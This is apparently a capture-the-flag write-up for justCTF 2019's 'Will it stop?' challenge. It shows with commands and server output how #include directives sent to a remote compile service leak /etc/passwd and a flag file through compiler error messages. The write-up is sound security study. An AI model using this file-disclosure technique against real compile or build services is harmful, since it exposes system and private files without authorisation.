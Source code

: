 # Will it stop?

## Challenge info

Poor Vesim... Would you help him?

```  
nc will-it-stop.nc.jctf.pro 1337  
# EDITed: after CTF use:  
nc 2019.nc.jctf.pro 1342  
```

PS: The `flag` is in users home directory.

Link to pdf [mirror](https://github.com/vilkoz/ctf-
writeup/blob/master/justCTF-2019/will_it_stop/ctf.pdf)

## PDF contents

```  
Will it stop?

Memory limit:  
Time limit:

42 MiB  
1337 ms

Vesim is a CS student. This semester he is really struggling to pass
computability and formal language  
theory course. He asked for a last chance, so the professor gave him a task:
"For a given Python program, tell  
me if it will eventually stop or not!". Sadly Vesim was pwning and reversing
so he didn’t have time to solve this  
problem. Could you help him?  
The professor agreed to host the submission system on his private server.  
Funny fact: At home the professor has a wide collection of flags from all over
the world!

I NPUT  
First line of input contains number N .  
Following N lines contain Python source code.

OUTPUT  
If the given Python program stops, the output shall contain "YES", otherwise
"NO".

EXAMPLES

Input  
2  
while 1:  
pass

Output  
NO

Input  
1  
print("jctf{stop!}")

Output  
YES  
```

## Solution

At first, I've checked the endpoint:  
```  
How many lines does your C program parsing a Python code have?  
1  
Write your program now:  
int main(void) {puts("gopa");}  
Ok, let's build it!  
...  
GO LEARN MORE CS OR YOU WILL NEVER PASS IT!!11!  
```  
NOTE: At the begining of the ctf there was an linking error (e.g. `ld: error:
cannot write into /dev/null` or something like this) instead of this `GO LEARN
MORE CS..` text.

So, if our code will not be linked and executed the information disclosure
should be happen in the compilation process, also recently I heard that system
files could be partly read with `#include` directives of cpp (C preprocessor).

After it, I've tried to see usernames of the "professor's" computer, because
flag should be in users home directory:  
```  
~/g/c/will_it_stop> cat test1.txt  
1  
#include "/etc/passwd"  
~/g/c/will_it_stop> cat test1.txt | nc 2019.nc.jctf.pro 1342  
How many lines does your C program parsing a Python code have?  
Write your program now:  
Ok, let's build it!  
In file included from <stdin>:1:0:  
/etc/passwd:1:8: error: expected '=', ',', ';', 'asm' or '__attribute__'
before ':' token  
aturing:x:1000:1000::/home/aturing:/bin/sh  
       ^  
COMPILATION FAILED  
```

Seems like, username is aturing, so flag should be `/home/aturing/flag`:

```  
~/g/c/will_it_stop> cat test2.txt  
1  
#include "/home/aturing/flag"  
~/g/c/will_it_stop> cat test2.txt | nc 2019.nc.jctf.pro 1342  
How many lines does your C program parsing a Python code have?  
Write your program now:  
Ok, let's build it!  
In file included from <stdin>:1:0:  
/home/aturing/flag:1:8: error: expected '=', ',', ';', 'asm' or
'__attribute__' before ':' token  
justCTF:is_this_the_real_flag__is_this_just_fantasy__open_your_eyes_look_bellow_in_the_file_and_see  
       ^  
COMPILATION FAILED  
```

Here I've stuck for a while, becouse I needed to somehow reveal the contents
of the second line of the file,  
to do this the error on /home/aturing/flag:1 should be "fixed".

In C symbol `:` is used for ternary operator (e.g. `STATEMENT ? "IF TRUE" :
"IF FALSE"`), and for bitfields  
I've decided that it would be easier to use ternary operator and with trial
and error I've came to this:

```  
~/g/c/will_it_stop> cat test.txt  
4  
#define justCTF 1  
int
is_this_the_real_flag__is_this_just_fantasy__open_your_eyes_look_bellow_in_the_file_and_see
= 1;  
int gopa = 1 ?  
#include </home/aturing/flag>  
~/g/c/will_it_stop> cat test.txt | nc 2019.nc.jctf.pro 1342  
How many lines does your C program parsing a Python code have?  
Write your program now:  
Ok, let's build it!  
<stdin>:1:17: error: expected ',' or ';' before numeric constant  
/home/aturing/flag:2:1: note: in expansion of macro 'justCTF'  
justCTF{mama_just_got_a_flag}  
^~~~~~~  
COMPILATION FAILED  
`

Original writeup (https://github.com/vilkoz/ctf-
writeup/tree/master/justCTF-2019/will_it_stop).